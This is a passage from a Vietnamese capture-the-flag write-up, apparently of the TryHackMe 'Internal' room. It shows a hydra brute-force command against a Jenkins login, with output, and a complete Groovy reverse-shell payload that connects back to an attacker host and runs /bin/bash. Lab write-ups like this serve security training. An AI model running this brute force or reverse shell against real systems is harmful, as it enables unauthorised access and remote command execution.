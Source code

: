 Sau khi thử các user-pass đơn giản đều không có kết quả, tôi vẫn phải dùng đến brute force, và lần này tôi dùng *hydra*. Nhưng trước đó phải dùng BurpSuite để lấy form đăng nhập.

![login-form](/assets/img/2021-12-05-THM-Internal/8.webp)

Bây giờ thì thử brute force với username mặc định của Jenkins là *admin*

```python
┌──(neo㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt 127.0.0.1 -s 2402 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-14 06:08:39
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 59185 login tries (l:1/p:59185), ~3700 tries per task
[DATA] attacking http-post-form://127.0.0.1:2402/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[2402][http-post-form] host: 127.0.0.1   login: admin   password: *******
1 of 1 target successfully completed, 1 valid password found
```

Ô được luôn này :laughing:. Thử google 1 chút về jenkins và cách upload reverse shell, tôi biết được có thể upload payload bằng code java từ Groovy.

```python
String host="myip";
int port=12345;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

